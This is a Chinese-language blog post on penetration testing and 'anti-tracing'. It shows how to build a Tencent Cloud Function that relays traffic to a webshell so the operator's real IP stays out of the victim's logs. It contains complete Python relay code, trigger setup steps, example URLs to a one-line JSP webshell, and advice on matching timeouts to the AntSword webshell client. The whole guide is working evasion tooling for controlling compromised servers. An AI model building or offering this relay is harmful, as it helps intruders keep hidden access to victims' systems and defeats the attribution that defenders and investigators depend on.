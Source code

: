 ```yaml
---
title: 利用云函数隐藏Webshell真实IP
comments: true
date: 2022-06-13 19:16:40
tags: ["渗透测试", "防溯源", "云函数"]
categories:
- 渗透测试
cover: https://image.geoer.cn/20220614141212.png
top_img:
description:
---
```



> 腾讯云自带CDN，我们可以通过腾讯云函数来转发我们的Webshell请求，从而达到隐藏真实IP的目的

## 创建云函数
找到云函数，使用自定义模板
![20220613192232](https://image.geoer.cn/20220613192232.png)

![20220613192325](https://image.geoer.cn/20220613192325.png)

把下面的代码复制到index.py中
```python
# -*- coding: utf8 -*-
import requests
import json
def geturl(urlstr):
    jurlstr = json.dumps(urlstr)
    dict_url = json.loads(jurlstr)
    return dict_url['u']
def main_handler(event, context):
    url = geturl(event['queryString'])
    postdata = event['body']
    headers=event['headers']
    resp=requests.post(url,data=postdata,headers=headers,verify=False)
    response={
        "isBase64Encoded": False,
        "statusCode": 200,
        "headers": {'Content-Type': 'text/html;charset='+resp.apparent_encoding},
        "body": resp.text
    }
    return response

```
> 注意，运行环境要选Ppython3.6，不然3.7的话得手动上传第三方库(感觉我的同事，不然我一直在坑里出不来呢)


![20220613192414](https://image.geoer.cn/20220613192414.png)


部署成功后，点击触发管理->创建触发器：
![20220613192526](https://image.geoer.cn/20220613192526.png)

这里需要选择API网关触发：
![20220613192618](https://image.geoer.cn/20220613192618.png)


创建完成后，下图可以看到我们的访问路径：
![20220613192747](https://image.geoer.cn/20220613192747.png)


## 使用方法
然后在我们的访问路径后面增加`?u=webshell一句话木马`的地址即可
例如：
```text
https://sxxxxxxxxxxxxxxxxx.gz.apigw.tencentcs.com/release/helloworld-11?u=http://xxxx/shell.jsp

```



使用云函数之前，可以看到我的真实IP：
我这里使用`tail -f xxx.log`来监控的日志，也可以wireshark抓包
访问：`http://10.80.20.57:8080/test/shell.jsp`
![20220614112844](https://image.geoer.cn/20220614112844.png)
![20220614112807](https://image.geoer.cn/20220614112807.png)

使用云函数之后，
访问：`https://serxxxxxxxxxxxx.gz.apigw.tencentcs.com/release/forwarded?u=http://xxx/shell.jsp`
![20220614132635](https://image.geoer.cn/20220614132635.png)

然后我们查看日志：显示的是腾讯云函数CDN的地址

![20220614132911](https://image.geoer.cn/20220614132911.png)
可以看到IP地址是随机的：
![20220614132852](https://image.geoer.cn/20220614132852.png)

成功达到目的



## 补充
防止webshell的掉线行为，修改一下超时设置，可以配置为60s  
最好在【函数管理】 -> 【函数配置】里面，最好把执行超时时间设置成和蚁剑里面的超时时间一样或者更长
![20220613193021](https://image.geoer.cn/20220613193021.png)







